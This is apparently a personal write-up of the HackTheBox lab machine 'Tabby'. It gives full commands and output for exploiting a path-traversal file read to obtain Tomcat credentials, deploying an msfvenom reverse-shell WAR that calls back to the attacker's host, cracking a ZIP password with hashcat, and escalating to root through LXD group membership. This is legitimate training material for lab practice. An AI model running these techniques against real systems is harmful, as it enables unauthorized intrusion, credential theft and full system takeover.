

---
tags:
  - hack
  - linux
---
# HackTheBox: [Tabby](https://app.hackthebox.com/machines/Tabby)

> [!tip]- Summary with Spoilers
> - This machine has an LFI vulnerability in the `news.php` endpoint, revealing credentials for a Tomcat instance.
> - I used the Tomcat Manager Script role to deploy a malicious WAR file, gaining RCE as `tomcat`.
> - Privilege escalation was achieved by cracking a password-protected ZIP file to access the `ash` user, who was part of the `lxd` group.
> - Using `lxd` group privileges, I mounted the root filesystem from a container to gain `root` access.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Fri Aug  9 09:35:23 2024 as: nmap -v -sCV -p- -T4 --min-rate 10000 -oN tcp_full t
Nmap scan report for t (10.10.10.194)
Host is up (0.098s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 338ABBB5EA8D80B9869555ECA253D49D
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### 80/tcp-http


There's an easy LFI vulnerability:

```console
$ curl http://megahosting.htb/news.php?file=../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
tomcat:x:997:997::/opt/tomcat:/bin/false
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
ash:x:1000:1000:clive:/home/ash:/bin/bash
```

```php
$ curl --output - http://megahosting.htb/news.php?file=../../../../../../var/www/html/news.php
<?php
$file = $_GET['file'];
$fh = fopen("files/$file","r");
while ($line = fgets($fh)) {
  echo($line);
}
fclose($fh);
?>
```

#### 8080/tcp-http

Tomcat! See "Remote Code Execution" below.

## Remote Code Execution

Using the LFI on the primary web app, it's possible to dump the `tomcat-users.xml` file which contains the cleartext password for the Tomcat manager apps:

I spent a _very_ long time trying to figure out the exact location of the `tomcat-users.xml` file, and eventually I had to look up a hint.

```console
$ curl --output - http://megahosting.htb/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml
<?xml version="1.0" encoding="UTF-8"?>
...
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```

This grants access to the `/host-manager` endpoint:



The creds do _not_ work for the `/manager/html` endpoint, however. But it _does_ have role `manager-script`, which allows this:

```console
$ curl -u 'tomcat:$3cureP4s5w0rd123!' http://t:8080/manager/text/list
OK - Listed applications for virtual host [localhost]
/:running:0:ROOT
/examples:running:0:/usr/share/tomcat9-examples/examples
/host-manager:running:0:/usr/share/tomcat9-admin/host-manager
/manager:running:0:/usr/share/tomcat9-admin/manager
/docs:running:0:/usr/share/tomcat9-docs/docs
```

It can be used to deploy a malicious WAR file.

```console
$ msfvenom -p java/shell_reverse_tcp lhost=10.10.14.8 lport=443 -f war -o hax.war
Payload size: 13030 bytes
Final size of war file: 13030 bytes
Saved as: hax.war

$ curl -u 'tomcat:$3cureP4s5w0rd123!' http://t:8080/manager/text/deploy?path=/hax --upload-file hax.war
OK - Deployed application at context path [/hax]
```

And, it works:

```console
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.194] 45100
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
```

## Privilege Escalation

With access as `tomcat`, there's a Zip file visible in the `/var/www/html/files` directory:

```console
tomcat@tabby:/var/www/html$ ls files/
16162020_backup.zip  archive  revoked_certs  statement
```

After exfil'ing the archive to my machine, I see it's password-protected. I use `zip2john` to grab the hash, and crack it with `hashcat`.

```console
$ cat tabby.ziphash
$pkzip$5*1*1*0*8*24*7db5*dd84cfff4c26e855919708e34b3a32adc4d5c1a0f2a24b1e59be93f3641b254fde4da84c*1*0*8*24*6a8b*32010e3d24c744ea56561bbf91c0d4e22f9a300fcf01562f6fcf5c986924e5a6f6138334*1*0*0*24*5d46*ccf7b799809a3d3c12abb83063af3c6dd538521379c8d744cd195945926884341a9c4f74*1*0*8*24*5935*f422c178c96c8537b1297ae19ab6b91f497252d0a4efe86b3264ee48b099ed6dd54811ff*2*0*72*7b*5c67f19e*1b1f*4f*8*72*5a7a*ca5fafc4738500a9b5a41c17d7ee193634e3f8e483b6795e898581d0fe5198d16fe5332ea7d4a299e95ebfff6b9f955427563773b68eaee312d2bb841eecd6b9cc70a7597226c7a8724b0fcd43e4d0183f0ad47c14bf0268c1113ff57e11fc2e74d72a8d30f3590adc3393dddac6dcb11bfd*$/pkzip$::foo.zip:var/www/html/news.php, var/www/html/favicon.ico, var/www/html/Readme.txt, var/www/html/logo.png, var/www/html/index.php:foo.zip
```

```console
$ hashcat ./tabby.ziphash ./rockyou.txt  -m 17225
hashcat (v6.2.6) starting
...
$pkzip$5*1*1*0*8*24*7db5*dd84cfff4c26e855919708e34b3a32adc4d5c1a0f2a24b1e59be93f3641b254fde4da84c*1*0*8*24*6a8b*32010e3d24c744ea56561bbf91c0d4e22f9a300fcf01562f6fcf5c986924e5a6f6138334*1*0*0*24*5d46*ccf7b799809a3d3c12abb83063af3c6dd538521379c8d744cd195945926884341a9c4f74*1*0*8*24*5935*f422c178c96c8537b1297ae19ab6b91f497252d0a4efe86b3264ee48b099ed6dd54811ff*2*0*72*7b*5c67f19e*1b1f*4f*8*72*5a7a*ca5fafc4738500a9b5a41c17d7ee193634e3f8e483b6795e898581d0fe5198d16fe5332ea7d4a299e95ebfff6b9f955427563773b68eaee312d2bb841eecd6b9cc70a7597226c7a8724b0fcd43e4d0183f0ad47c14bf0268c1113ff57e11fc2e74d72a8d30f3590adc3393dddac6dcb11bfd*$/pkzip$:admin@it
```

That password works for the only user on the system, `ash`:

```console
tomcat@tabby:/var/www/html/files$ su - ash
Password:
ash@tabby:~$ cat user.txt
4b581c...
ash@tabby:~$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

Now, the `lxd` group is interesting. WIth that group membership I should be able to mount the root filesystem, as root, by mounting it from within a container.

First, I'll build the container on my workstation.

```console
$ git clone https://github.com/saghul/lxd-alpine-builder.git
Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 50, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (6/6), done.
xd lReceiving objects:  42% (21/50), 1.71 MiB | 224.00 KiB/s
remote: Total 50 (delta 2), reused 5 (delta 2), pack-reused 42
Receiving objects: 100% (50/50), 3.11 MiB | 218.00 KiB/s, done.
Resolving deltas: 100% (15/15), done.

$ cd lxd-alpine-builder/

$ sudo ./build-alpine
[sudo] password for kali:
Determining the latest release... v3.20
Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.20/main/x86_64
Downloading alpine-keys-2.4-r1.apk
...
(22/24) Installing scanelf (1.3.7-r2)
(23/24) Installing musl-utils (1.2.5-r0)
(24/24) Installing alpine-base (3.20.2-r0)
Executing busybox-1.36.1-r29.trigger
OK: 10 MiB in 24 packages

$ sudo chmod 644 alpine-v3.20-x86_64-20240809_1509.tar.gz
$ scp alpine-v3.20-x86_64-20240809_1509.tar.gz ash@t:
Warning: Permanently added 't' (ED25519) to the list of known hosts.
alpine-v3.20-x86_64-20240809_1509.tar.gz                                                                  100% 3761KB   2.8MB/s   00:01
```

On the target, I initialized LXD and create the container, with the target's root filesystem mounted under `/mnt/root`:

```console
ash@tabby:~$ lxc image import ./alpine-v3.20-x86_64-20240809_1509.tar.gz --alias hax
Image imported with fingerprint: 2f45130dbe00d957c463d0d0c986b2b6f462cd08f305a77d8eec4399394a30aa
ash@tabby:~$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]:
Do you want to configure a new storage pool? (yes/no) [default=yes]:
Name of the new storage pool [default=default]:
Name of the storage backend to use (dir, lvm, zfs, ceph, btrfs) [default=zfs]:
Create a new ZFS pool? (yes/no) [default=yes]:
Would you like to use an existing empty block device (e.g. a disk or partition)? (yes/no) [default=no]:
Size in GB of the new loop device (1GB minimum) [default=5GB]:
Would you like to connect to a MAAS server? (yes/no) [default=no]:
Would you like to create a new local network bridge? (yes/no) [default=yes]:
What should the new bridge be called? [default=lxdbr0]:
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]:
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]:
Would you like the LXD server to be available over the network? (yes/no) [default=no]:
Would you like stale cached images to be updated automatically? (yes/no) [default=yes]
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]:
ash@tabby:~$
ash@tabby:~$ lxc init hax container-hax -c security.privileged=true
Creating container-hax
ash@tabby:~$ lxc config add container-hax device-hax disk source=/ path=/mnt/root
Error: unknown command "add" for "lxc config"
ash@tabby:~$ lxc config device add container-hax device-hax disk source=/ path=/mnt/root
Device device-hax added to container-hax
ash@tabby:~$ lxc list
+---------------+---------+------+------+-----------+-----------+
|     NAME      |  STATE  | IPV4 | IPV6 |   TYPE    | SNAPSHOTS |
+---------------+---------+------+------+-----------+-----------+
| container-hax | STOPPED |      |      | CONTAINER | 0         |
+---------------+---------+------+------+-----------+-----------+
ash@tabby:~$ lxc start container-hax
ash@tabby:~$ lxc list
+---------------+---------+------+-----------------------------------------------+-----------+-----------+
|     NAME      |  STATE  | IPV4 |                     IPV6                      |   TYPE    | SNAPSHOTS |
+---------------+---------+------+-----------------------------------------------+-----------+-----------+
| container-hax | RUNNING |      | fd42:fb40:97cb:f134:216:3eff:fe98:3c2e (eth0) | CONTAINER | 0         |
+---------------+---------+------+-----------------------------------------------+-----------+-----------+
ash@tabby:~$ lxc exec container-hax /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # cd /mnt/root/root/
/mnt/root/root # cat root.txt
4337716...
```

## Post-exploitation

There is a leaner way to do the lxc exploit on [blog.m0noc.com](https://blog.m0noc.com/2018/10/lxc-container-privilege-escalation-in.html?m=1). It's basically the same except the container image is much leaner.

## Credits

- I used [this walkthrough](https://offs3cg33k.medium.com/tabby-htb-walkthrough-97b61b5c2a98) for a hint on the location of `tomcat-users.xml`.
- As usual, [0xdf](https://0xdf.gitlab.io/2020/11/07/htb-tabby.html) has the goods.
